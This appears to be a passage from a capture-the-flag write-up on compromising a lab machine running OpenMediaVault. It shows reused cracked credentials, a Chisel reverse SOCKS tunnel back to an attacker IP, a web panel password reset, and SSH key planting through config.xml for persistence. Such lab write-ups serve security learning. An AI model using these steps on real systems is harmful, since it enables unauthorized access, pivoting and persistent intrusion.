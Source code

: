 ```bash
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -    
```

## User: openmediavault-webgui

We can switch to the `openmediavault-webgui` due to password reuse.  
Checking `/etc/passwd` you can see that this account is associated to `Toby Wright` and the password we were able to crack was called `toby`

Creds  
`openmediavault-webgui:greenday`

## Pivoting Setup

To reach the app you have to have either port forwarding or use a tunnel.  
[Chisel](https://github.com/jpillora/chisel) did the job for me, it's my go to tool :) 

```bash
# Attacker Machine
./chisel server -p 8001 --reverse
# Target Machine
./chisel client 10.10.14.135:8001 R:1080:socks
```

## Reset Webpanel Password

Since the default credentials doesn't work we have to reset the password

```bash
/usr/sbin/omv-firstaid
```

## SSH Key Deployment

After some time of digging aroung the app and learning how it functions we notice that we are able to deploy ssh keys with it using it's config files as the webpanel doesn't allow us to do anything related to user management.

**/etc/openmediavault/config.xml**

```xml
<user>
<uuid>xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx</uuid>
<name>test</name>
<email></email>
<disallowusermod>0</disallowusermod>
<sshpubkeys></sshpubkeys>
</user>
```
